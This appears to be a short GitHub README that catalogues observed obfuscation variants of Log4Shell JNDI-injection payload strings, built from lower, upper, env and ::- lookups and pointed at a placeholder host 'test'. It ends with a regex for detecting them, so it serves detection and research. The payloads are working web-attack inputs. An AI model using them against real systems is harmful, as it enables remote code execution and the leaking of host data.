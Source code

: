 ## Log4j2-Obfucation

Current Log4Shell obfuscation techniques observed or reported (Also works on rmi, dns, ldaps)

# Obfuscation

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://test/a}

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://${upper:t}est/a} 

${${env:env_name:-j}${env:env_name:-n}${env:env_name:-d}${env:env_name:-i}${env:env_name:-:}${env:env_name:-l}${env:env_name:-d}${env:env_name:-a}${env:env_name:-p}${env:env_name:-:}//test/a} (Also works on rmi, dns, ldaps)

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://test/a}

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://${hostname}.test/a}

# Regex

.*\$\{.{0,20}j.{0,20}n.{0,20}d.{0,20}i.{0,150}:.{0,5}\/.*\}
